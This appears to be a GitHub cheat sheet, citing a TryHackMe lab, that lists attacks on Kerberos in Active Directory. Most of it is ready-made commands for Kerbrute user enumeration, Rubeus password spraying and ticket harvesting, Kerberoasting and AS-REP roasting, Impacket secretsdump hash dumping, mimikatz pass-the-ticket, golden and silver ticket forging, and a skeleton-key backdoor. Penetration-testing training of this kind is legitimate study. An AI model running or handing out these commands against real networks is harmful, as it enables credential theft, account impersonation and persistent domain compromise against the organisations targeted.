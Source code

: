 # Attacking Kerberos
* [Enumeration with Kerbrute](#enumeration-with-kerbrute)
* [Harvesting and Brute Forcing Tickets with Rubeus](#harvesting-and-brute-forcing-tickets-with-rubeus)
* [Kerberoasting with Rubeus and Impacket](#kerberoasting-with-rubeus-and-impacket)
* [AS-REP Roasting with Rubeus](#as-rep-roasting-with-rubeus)
* [Pass the Ticket with mimikatz](#pass-the-ticket-with-mimikatz)
* [Golden and Silver Ticket Attacks with mimikatz](#golden-and-silver-ticket-attacks-with-mimikatz)
* [Kerberos Backdoors with mimikatz](#kerberos-backdoors-with-mimikatz)

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

## Enumeration with Kerbrute

Kerbrute Installation:
* https://github.com/ropnop/kerbrute/releases

Brute force user accounts from a domain controller using a supplied wordlist:
```
./kerbrute userenum --dc [DOMAIN-CONTROLLER] -d [DOMAIN] [WORDLIST]
```
Example:
```
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```
*********************************************************************************
## Harvesting and Brute Forcing Tickets with Rubeus

Rubeus Installation:
* https://github.com/GhostPack/Rubeus

Tell Rubeus to harvest TGTs every 30 seconds:
```
Rubeus.exe harvest /interval:30
```
Before password spraying with Rubeus, add domain controller domain name to windows host file with this command:
```
echo [DOMAIN-IP] [DOMAIN-NAME] >> C:\Windows\System32\drivers\etc\hosts
```
Example:
```
echo 10.10.24.234 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
```

Take given password and "spray" it against all found users then give .kirbi TGT for that user:
```
Rubeus.exe brute /password:[PASSWORD] /noticket
```
Example:
```
Rubeus.exe brute /password:Password1 /noticket
```
*********************************************************************************
## Kerberoasting with Rubeus and Impacket

### Rubeus

Dump Kerberos hash of any kerberoastable users:
```
Rubeus.exe
```

### Impacket

Impacket Installation:
* https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19

Ensure dependencies are installed:
```
cd [IMPACKET-LOCATION]
```
```
pip install .
```
Navigate to where GetUserSPNs.py is located:
```
cd /usr/share/doc/python3-impacket/examples/
```
Dump Kerberos hash for all kerberoastable accounts on target machine remotely:
```
sudo python3 GetUserSPNs.py [DOMAIN-NAME]/Machine1:[PASSWORD] -dc-ip [DOMAIN-CONTROLLER-IP] -request
```
Example:
```
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.24.234 -request
```

Retrieve all password hashes from given user account:
```
python3 secretsdump.py [DOMAIN-NAME]/backup:[USERNAME]@[TARGET-IP]
```
Example: 
```
python3 /opt/impacket/examples/secretsdump.py  spookysec.local/backup:backup2517860@10.10.6.165
```
*********************************************************************************
## AS-REP Roasting with Rubeus

Look for vulnerable users then dump their hashes:
```
Rubeus.exe asreproast
```
*********************************************************************************
## Pass the Ticket with mimikatz

Run mimikatz
```
mimikatz.exe
```

Ensure proper privileges: (output '20' OK)
```
privilege::debug
```

Export all .kirbi tickets into current directory:
```
sekurlsa::tickets /export
```

Use harvested ticket to cache and impersonate given ticket:
```
kerberos::ptt [TICKET]
```

List cached tickets for impersonation verification:
```
klist
```
*********************************************************************************
## Golden and Silver Ticket Attacks with mimikatz

Dump hash and security identifier to create golden/silver ticket:
```
lsadump::lsa /inject /name:[ACCOUNT]
```
Example:
```
lsadump::lsa /inject /name:krbtgt
```

Create Golden/Silver Ticket:
```
Kerberos::[golden or silver] /user:[USERNAME] /domain:[DOMAIN-NAME] /sid:[SID] /krbtgt:[NTLM-HASH] /id:[500 (golden) OR 1103 (silver)]
```
Example:
```
Kerberos::silver /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158
860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:1103
```

Open new elevated command prompt with given ticket in mimikatz:
```
misc::cmd
```
*********************************************************************************
## Kerberos Backdoors with mimikatz

Install skeleton key:
```
misc::skeleton
```

### Accessing the Forest

* The default credentials will be: "mimikatz"

Access share without admin password example:
```
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
```
*********************************************************************************
## Reference
https://tryhackme.com/room/attackingkerberos#
